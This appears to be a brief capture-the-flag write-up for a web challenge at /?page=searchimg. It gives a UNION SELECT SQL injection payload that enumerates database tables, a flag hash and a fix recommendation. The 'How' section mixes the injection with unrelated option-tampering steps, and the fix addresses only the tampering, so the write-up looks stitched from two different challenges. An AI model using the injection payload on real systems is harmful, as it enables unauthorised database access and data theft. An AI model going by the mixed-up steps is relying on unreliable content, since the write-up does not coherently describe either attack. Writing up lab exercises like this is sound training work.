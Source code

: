 # Where: <br>
    /?page=searchimg
# How:
-By entering
     1 union select null, concat (table_name) from information_schema.tables where table_schema = database ()<br>

-Change the value of 1 of the options to an invalid value.
Or
-Add an invalid option.
-Select the invalid value
-Receive the flag
# Flag:
03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA
# Fix:
Store options server side/on backend.All user input should be sanitised and validated (backend).
